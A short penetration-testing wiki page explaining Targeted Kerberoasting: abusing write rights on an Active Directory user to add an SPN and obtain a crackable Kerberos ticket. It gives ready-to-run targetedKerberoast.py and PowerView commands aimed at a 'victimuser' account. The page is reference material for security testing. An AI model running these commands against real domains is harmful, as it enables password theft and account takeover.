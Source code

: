 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has `WriteProperty`, `GenericWrite` or `GenericAll` over a target user \(i.e. member of the [Account Operator](../privileged-groups.md) group\).

The attacker can add an SPN \(`ServicePrincipalName`\) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. 

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) \(Python\)

```bash
targetedKerberoast.py -v -d $DOMAIN_FQDN -u $USER -p $PASSWORD
```
{% endtab %}

{% tab title="Windows" %}
From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.

